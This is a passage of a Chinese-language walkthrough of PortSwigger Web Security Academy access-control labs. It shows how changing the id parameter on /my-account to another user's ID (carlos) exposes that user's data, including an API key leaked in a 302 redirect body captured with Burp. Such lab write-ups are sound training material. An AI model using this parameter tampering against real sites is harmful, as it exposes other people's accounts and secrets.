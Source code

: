 隨便逛一下貼文可以找到 carlos 的帳號

```
https://ac7e1fd91ec355adc0e672a800c50010.web-security-academy.net/blogs?userId=dfc98c4a-3798-4602-8bef-c11c712f17d9
```


把 ID 貼過去 `/my-account?id=` 就過了

## [Lab: User ID controlled by request parameter with data leakage in redirect ](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect)
### 題目敘述
 This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
資料藏在 redirect 的 response

### 解答
Burp 的 Proxy 上面設定 Options 勾選 Intercept Server Responses

```
GET /my-account?id=carlos 
```

捕捉回傳會發現吐 302 但是有乖乖給 API KEY

```
HTTP/1.1 302 Found
Location: /login
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Connection: close
Content-Length: 3394
// 略
                    <h1>My Account</h1>
                    <div id=account-content>
                        <p>Your username is: carlos</p>
                        <div>Your API Key is: 4umpflqpQkrtFLHnyd4XGHXPj3dmQGKT
```

## [Lab: User ID controlled by request parameter with password disclosure](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure)
### 題目敘述
 This lab has user account page that contains the current user's existing password, prefilled in a masked input.
